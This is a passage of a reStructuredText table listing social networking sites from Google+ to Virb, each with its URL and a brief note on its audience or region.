+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Google+                     | `http://plus.google.com <http://plus.google.com/>`__                                       | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| GovLoop                     | `http://www.govloop.com <http://www.govloop.com/>`__                                       | For people in and around government                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Gowalla                     | `http://gowalla.com <http://gowalla.com/>`__                                               |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Grono.net                   | `http://grono.net <http://grono.net/>`__                                                   | Poland                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Habbo                       | `http://www.habbo.com <http://www.habbo.com/>`__                                           | General for teens. Over 31 communities worldwide. Chat Room and user profiles.                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| hi5                         | `http://hi5.com <http://hi5.com/>`__                                                       | General. Popular in India, Mongolia, Thailand, Romania, Jamaica, Central Africa, Portugal and Latin America. Not very popular in the USA.                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Hospitality Club            | `http://www.hospitalityclub.org <http://www.hospitalityclub.org/>`__                       | Hospitality                                                                                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Hotlist                     | `http://www.thehotlist.com <http://www.thehotlist.com/>`__                                 | Geo-Social Aggregator rooted in the concept of knowing where your friends are, were, and will be.                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| HR.com                      | `http://www.hr.com <http://www.hr.com/>`__                                                 | Social networking site for Human Resources professionals                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Hub Culture                 | `http://www.hubculture.com <http://www.hubculture.com/>`__                                 | Global influencers focused on worth creation                                                                                                                                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Hyves                       | `http://www.hyves.nl <http://www.hyves.nl/>`__                                             | General, Most popular in the Netherlands.                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Ibibo                       | `http://www.ibibo.com <http://www.ibibo.com/>`__                                           | Talent based social networking site that allows to promote one's self and also discover new talent. Most popular in India.                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Identi.ca                   | `http://identi.ca <http://identi.ca/>`__                                                   | Twitter-like service popular with hackers and software freedom advocates.                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Indaba Music                | `http://www.indabamusic.com <http://www.indabamusic.com/>`__                               | Online collaboration for musicians, remix contests, and networking.                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| IRC-Galleria                | `http://www.irc-galleria.net <http://www.irc-galleria.net/>`__                             | Finland                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| italki.com                  | `http://www.italki.com <http://www.italki.com/>`__                                         | Language learning social network. 100+ languages.                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| InterNations                | `http://www.internations.org <http://www.internations.org/>`__                             | International community                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Itsmy                       | `http://mobile.itsmy.com <http://mobile.itsmy.com/>`__                                     | Mobile community worldwide, blogging, friends, personal TV-shows                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| iWiW                        | `http://iwiw.hu <http://iwiw.hu/>`__                                                       | Hungary                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Jaiku                       | `http://www.jaiku.com <http://www.jaiku.com/>`__                                           | General. Microblogging. Owned by Google                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| JammerDirect.com            | `http://www.jammerdirect.com <http://www.jammerdirect.com/>`__                             | Network for unsigned artists                                                                                                                                                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| kaioo                       | `http://www.kaioo.com <http://www.kaioo.com/>`__                                           | General, nonprofit                                                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Kaixin001                   | `http://www.kaixin001.com <http://www.kaixin001.com/>`__                                   | General. In Simplified Chinese; caters for mainland China users                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Kiwibox                     | `http://www.kiwibox.com <http://www.kiwibox.com/>`__                                       | General. For the users, by the users, a social network that is more than a community.                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Lafango                     | `http://lafango.com <http://lafango.com/>`__                                               | Talent-Focused media sharing site                                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Last.fm                     | `http://www.last.fm <http://www.last.fm/>`__                                               | Music                                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| LibraryThing                | | `http://www.librarything.com/ <http://www.librarything.com/>`__                          | Book lovers                                                                                                                                                                                                                                 |
|                             | | (German) `http://www.librarything.de <http://www.librarything.de/>`__                    |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Lifeknot                    | `http://www.lifeknot.com <http://www.lifeknot.com/>`__                                     | Shared interests, hobbies                                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| LinkedIn                    | `http://www.linkedin.com <http://www.linkedin.com/>`__                                     | Business and professional networking                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| LinkExpats                  | `http://www.linkexpats.com <http://www.linkexpats.com/>`__                                 | Social networking website for expatriates. 100+ countries.                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Listography                 | `http://listography.com <http://listography.com/>`__                                       | Lists. Autobiography                                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| LiveJournal                 | `http://www.livejournal.com <http://www.livejournal.com/>`__                               | Blogging. Popular in Russia and among the Russian-speaking diaspora abroad.                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Livemocha                   | `http://www.livemocha.com <http://www.livemocha.com/>`__                                   | Online language learning - dynamic online courses in 35 languages - world's largest community of native language speakers.                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| LunarStorm                  | `http://www.lunarstorm.se <http://www.lunarstorm.se/>`__                                   | Sweden                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MEETin                      | `http://www.meetin.org <http://www.meetin.org/>`__                                         | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Meetup.com                  | `http://www.meetup.com <http://www.meetup.com/>`__                                         | General. Used to plan offline meetings for people interested in various activities                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Meettheboss                 | `http://www.meettheboss.tv <http://www.meettheboss.tv/>`__                                 | Business and Finance community, worldwide.                                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Mixi                        | `http://www.mixi.jp <http://www.mixi.jp/>`__                                               | Japan                                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| mobikade                    | `http://www.mkade.com <http://www.mkade.com/>`__                                           | mobile community, UK only                                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MocoSpace                   | `http://www.mocospace.com <http://www.mocospace.com/>`__                                   | mobile community, worldwide                                                                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MOG                         | `http://www.mog.com <http://www.mog.com/>`__                                               | Music                                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MouthShut.com               | `http://www.mouthshut.com <http://www.mouthshut.com/>`__                                   | Social Network, social media, consumer reviews                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Mubi (website)              | `http://mubi.com <http://mubi.com/>`__                                                     | Auteur cinema                                                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Multiply                    | `http://multiply.com <http://multiply.com/>`__                                             | Real world relationships. Popular in primarily in Asia.                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Muxlim                      | `http://muxlim.com <http://muxlim.com/>`__                                                 | Muslim portal site                                                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MyAnimeList                 | `http://www.myanimelist.net <http://www.myanimelist.net/>`__                               | Anime themed social community                                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MyChurch                    | `http://www.mychurch.org <http://www.mychurch.org/>`__                                     | Christian Churches                                                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MyHeritage                  | `http://www.myheritage.com <http://www.myheritage.com/>`__                                 | family-oriented social network service                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| MyLife                      | `http://www.mylife.com <http://www.mylife.com/>`__                                         | Locating friends and family, keeping in touch (formerly Reunion.com)                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| My Opera                    | `http://my.opera.com <http://my.opera.com/>`__                                             | Blogging, mobile blogging, photo sharing, connecting with friends, Opera Link and Opera Unite. Global                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Myspace                     | `http://www.myspace.com <http://www.myspace.com/>`__                                       | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| myYearbook                  | `http://www.myyearbook.com <http://www.myyearbook.com/>`__                                 | General, Charity                                                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Nasza-klasa.pl              | `http://www.nk.pl <http://www.nk.pl/>`__                                                   | School, college and friends. Popular in Poland                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Netlog                      | `http://www.netlog.com <http://www.netlog.com/>`__                                         | General. Popular in Europe, Turkey, the Arab World and Canada's QuÈbec province. Formerly known as Facebox and Redbox.                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Nettby                      | `http://www.nettby.no <http://www.nettby.no/>`__                                           | Norwegian Community                                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Nexopia                     | `http://www.nexopia.com <http://www.nexopia.com/>`__                                       | Canada                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| NGO Post                    | `http://www.ngopost.org <http://www.ngopost.org/>`__                                       | Non-Profit news sharing and networking, mainly in India                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Ning                        | `http://www.ngopost.org <http://www.ngopost.org/>`__                                       | Users create their own social websites and social networks                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Odnoklassniki               | `http://odnoklassniki.ru <http://odnoklassniki.ru/>`__                                     | Connect with old classmates. Popular in Russia and former Soviet republics                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| OneClimate                  | `http://www.oneclimate.net <http://www.oneclimate.net/>`__                                 | Not for Profit Social networking and Climate Change                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| OneWorldTV                  | `http://tv.oneworld.net <http://tv.oneworld.net/>`__                                       | Not for Profit Video sharing and social networking aimed at people interested in social issues, development, environment, etc.                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Open Diary                  | `http://www.opendiary.com <http://www.opendiary.com/>`__                                   | First online blogging community, founded in 1998                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Orkut                       | `http://orkut.com <http://orkut.com/>`__                                                   | General. Owned by Google Inc. Popular in India and Brazil.                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| OUTeverywhere               | `http://www.outeverywhere.com <http://www.outeverywhere.com/>`__                           | Gay/LGBTQ Community                                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Passportstamp               | `http://www.passportstamp.com <http://www.passportstamp.com/>`__                           | Travel                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Partyflock                  | `http://partyflock.nl <http://partyflock.nl/>`__                                           | Dutch virtual community for people interested in house music and other electronic dance music. Since 2001, Partyflock has evolved into the biggest online community for the dance scene in the Netherlands                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Picasa                      | `http://picasa.google.com <http://picasa.google.com/>`__                                   |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| PicFog                      | `http://picfog.com <http://picfog.com/>`__                                                 | PicFog shows pictures from twitter *as* they're posted                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Pingsta                     | `http://www.pingsta.com <http://www.pingsta.com/>`__                                       | Collaborative platform for the world's Internetwork Experts                                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Plaxo                       | `http://www.plaxo.com <http://www.plaxo.com/>`__                                           | Aggregator                                                                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Playahead                   | `http://www.playahead.se <http://www.playahead.se/>`__                                     | Swedish, Danish teenagers                                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Playlist.com                | `http://www.playlist.com <http://www.playlist.com/>`__                                     | General, Music                                                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Plurk                       | `http://www.plurk.com <http://www.plurk.com/>`__                                           | Micro-blogging, RSS, updates. Very popular in Taiwan                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Present.ly                  | `http://www.presently.com <http://www.presently.com/>`__                                   | Enterprise social networking and micro-blogging                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Qapacity                    | `http://www.qapacity.com <http://www.qapacity.com/>`__                                     | A a business-oriented social networking site and a business directory                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Quechup                     | `http://quechup.com <http://quechup.com/>`__                                               | General, friendship, dating                                                                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Qzone                       | `http://qzone.qq.com <http://qzone.qq.com/>`__                                             | General. In Simplified Chinese; caters for mainland China users                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Raptr                       | `http://raptr.com <http://raptr.com/>`__                                                   | Video games                                                                                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Ravelry                     | `http://www.ravelry.com <http://www.ravelry.com/>`__                                       | Knitting and crochet                                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Renren                      | `http://renren.com <http://renren.com/>`__                                                 | Significant site in China.                                                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ResearchGate                | `http://researchgate.net <http://researchgate.net/>`__                                     | Social network for scientific researchers                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ReverbNation.com            | `http://www.reverbnation.com <http://www.reverbnation.com/>`__                             | Social network for musician and bands                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Ryze                        | `http://www.ryze.com <http://www.ryze.com/>`__                                             | Business                                                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ScienceStage                | `http://sciencestage.com <http://sciencestage.com/>`__                                     | Science-oriented multimedia platform and network for scientists                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Scispace.net                | `http://scispace.net <http://scispace.net/>`__                                             | Collaborative network site for scientists                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ShareTheMusic               | `http://www.sharethemusic.com <http://www.sharethemusic.com/>`__                           | Music Community. Sharing and listening to music for free and legally                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Shelfari                    | `http://www.shelfari.com <http://www.shelfari.com/>`__                                     | Books                                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Skyrock                     | `http://skyrock.com <http://skyrock.com/>`__                                               | Social Network in French-speaking world                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Social Life                 | `http://www.sociallife.com.br <http://www.sociallife.com.br/>`__                           | Brazilian jet set and social elite world-wide                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| SocialVibe                  | `http://www.socialvibe.com <http://www.socialvibe.com/>`__                                 | Social Network for Charity                                                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Sonico.com                  | `http://www.sonico.com <http://www.sonico.com/>`__                                         | General. Popular in Latin America and Spanish and Portuguese speaking regions.                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Stickam                     | `http://www.stickam.com <http://www.stickam.com/>`__                                       | Live video streaming and chat.                                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| StudiVZ                     | `http://www.studivz.net <http://www.studivz.net/>`__                                       | University students, mostly in the German-speaking countries. School students and those out of education sign up via its partner sites sch¸lerVZ and meinVZ.                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| StumbleUpon                 | `http://www.stumbleupon.com <http://www.stumbleupon.com/>`__                               | Stumble through websites that match your selected interests                                                                                                                                                                                 |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Tagged                      | `http://www.tagged.com <http://www.tagged.com/>`__                                         | General. Subject to quite some controversy about its e-mail marketing and privacy policy                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Talkbiznow                  | `http://www.talkbiznow.com <http://www.talkbiznow.com/>`__                                 | Business networking                                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Taltopia                    | `http://www.taltopia.com <http://www.taltopia.com/>`__                                     | Online artistic community                                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Taringa!                    | `http://www.taringa.net <http://www.taringa.net/>`__                                       | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| TeachStreet                 | `http://www.teachstreet.com <http://www.teachstreet.com/>`__                               | Education / Learning / Teaching - More than 400 subjects                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| TravBuddy.com               | `http://www.travbuddy.com <http://www.travbuddy.com/>`__                                   | Travel                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Travellerspoint             | `http://www.travellerspoint.com <http://www.travellerspoint.com/>`__                       | Travel                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| tribe.net                   | `http://www.tribe.net <http://www.tribe.net/>`__                                           | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Trombi.com                  | `http://www.trombi.com <http://www.trombi.com/>`__                                         | French subsidiary of Classmates.com                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Tuenti                      | `http://www.tuenti.com <http://www.tuenti.com/>`__                                         | Spanish-based university and High School social network. Very Popular in Spain                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Tumblr                      | `http://www.tumblr.com <http://www.tumblr.com/>`__                                         | General. Micro-blogging, RSS                                                                                                                                                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Twitter                     | `http://twitter.com <http://twitter.com/>`__                                               | General. Micro-blogging, RSS, updates                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| twitpic                     | `http://twitpic.com <http://twitpic.com/>`__                                               |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Vkontakte                   | `http://vkontakte.ru/ <http://vkontakte.ru/>`__                                            | Social Network for Russian-speaking world including former Soviet republics. Biggest site in Russia                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Vampirefreaks.com           | `http://www.vampirefreaks.com <http://www.vampirefreaks.com/>`__                           | Gothic and industrial subculture                                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Viadeo                      | `http://www.viadeo.com <http://www.viadeo.com/>`__                                         | Global Social Networking and Campus Networking available in English, French, German, Spanish, Italian and Portuguese                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Virb                        | `http://www.virb.com <http://www.virb.com/>`__                                             | Social network that focuses heavily on artists, including musicians and photographers                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
